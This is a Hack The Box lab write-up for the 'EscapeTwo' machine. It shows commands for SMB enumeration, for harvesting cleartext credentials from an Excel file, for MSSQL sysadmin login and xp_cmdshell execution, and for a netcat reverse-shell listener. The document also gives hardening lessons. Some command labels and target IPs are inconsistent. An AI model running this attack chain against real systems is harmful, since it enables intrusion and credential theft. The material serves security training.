









<div align="left">

    

<div align="left">

# 💾 Hack The Box: EscapeTwo

<br>
<br>


</div>


---

## 📌 Overview

**EscapeTwo** is a Windows Active Directory machine that focuses on **Microsoft SQL Server security** and the risks of **improperly protected enterprise file shares**.

This lab demonstrates how a **weak service account configuration**, combined with **sensitive data stored inside Excel workbooks**, can be chained into **remote code execution (RCE)** using built‑in MSSQL functionality.

The attack path mirrors real internal engagements where attackers pivot from **data exposure → credential harvesting → service abuse**.

---

## 🔗 Attack Chain Summary

* Reconnaissance and service discovery via `nmap`
* SMB enumeration leading to discovery of sensitive `.xlsx` files
* Manual forensic analysis of Excel XML structures
* Credential harvesting for a high‑privilege SQL account
* Initial access and RCE via `xp_cmdshell` on MSSQL

---

## 🛠 Tools Used
```
| Tool                   | Purpose                                |
nmap                  → service discovery & OS fingerprinting
netexec / nxc         → SMB & MSSQL credential validation
impacket-smbclient    → interactive SMB share navigation
7z                    → file verification & archive extraction
impacket-mssqlclient  → MSSQL interaction & command execution
```

---

## 🔍 Enumeration

### 🔎 Nmap Recon

The initial scan identifies the target as **DC01.sequel.htb**, a **Windows Server 2019 Domain Controller**.

```bash
nmap -sC -sV -T4 10.129.18.116 -oN nmap_result.txt
```

**Observations:**

* DNS (53), Kerberos (88), LDAP (389) — Domain Controller confirmed
* SMB (445) — File share enumeration vector
* MSSQL (1433) — Microsoft SQL Server 2019 exposed

---

## 📁 SMB Enumeration & Data Exfiltration

Using the previously obtained **rose** account, available SMB shares are enumerated.

```bash
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
```


**Discovery:**

* **Accounting** share accessible with READ permissions
* Files of interest discovered:

  * `accounting_2024.xlsx`
  * `accounts.xlsx`

---

## 🧪 Forensic Analysis — The Excel Vector

### 1️⃣ Deconstructing the `.xlsx` File

Modern Excel files use the **Office Open XML** format and are effectively ZIP archives.

```bash
file accounts.xlsx
7z x accounts.xlsx
```


---

### 2️⃣ Credential Harvesting

Excel stores cell string data inside `xl/sharedStrings.xml`. Manual inspection reveals **cleartext credentials**.

**Recovered Credentials:**

```
Username: sa@sequel.htb
Password: MSSQLP@ssw0rd!
```


This account holds **sysadmin‑level privileges** on the MSSQL instance.

---

## ⚡ Initial Access — MSSQL Exploitation

### 1️⃣ Authenticating to the Database

Credentials are validated using **NetExec**.

```bash
impacketmssqlclient 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
```

The `(Pwn3d!)` tag confirms **sysadmin access**.

---

### 2️⃣ Remote Code Execution (RCE)

Using **impacket-mssqlclient**, we connect to the database and abuse the dangerous `xp_cmdshell` stored procedure.

```sql
EXEC xp_cmdshell 'whoami';
```

**Result:**

```
sequel\sql_svc
```

Command execution is achieved in the context of the SQL service account.

---

## 👑 Privilege Escalation Path

With command execution as `sql_svc`, a reverse shell listener is prepared.

```bash
nc -lnvp 4455
```

Due to assigned privileges such as **SeImpersonatePrivilege**, the SQL service account can be abused to escalate to **SYSTEM‑level control** of the host.

---

## 🧠 What This Box Teaches

* **XML File Forensics**
  Sensitive data often hides inside Office document sub‑structures

* **SQL Service Hardening**
  Default accounts like `sa` must be secured and `xp_cmdshell` disabled

* **Information Leakage**
  Unsecured file shares are a primary source of credentials used for lateral movement

---

## 📌 Conclusion

Sequel highlights how data exposure, not exploits, often initiates compromise. When sensitive documents, powerful service accounts, and insecure defaults coexist, full system compromise becomes inevitable.
---
This work is part of **FuzzRaiders**’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---

### Author: Anka0X
---
## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
---

